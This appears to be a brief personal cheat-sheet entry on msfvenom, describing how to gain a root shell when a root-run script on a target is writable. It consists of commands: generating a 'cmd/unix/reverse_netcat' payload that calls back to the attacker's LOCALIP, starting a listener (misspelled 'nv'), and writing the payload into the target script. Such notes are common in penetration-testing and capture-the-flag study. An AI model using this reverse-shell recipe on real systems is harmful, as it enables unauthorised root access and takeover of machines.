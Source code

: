 # Msfvenom
* If there is a script that we can write to that runs on root on the target machine:
	* Local: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`
    * Local: `nv -lvp 8888`
    * Target: `echo <msfvenom output> > script`
    * Run script

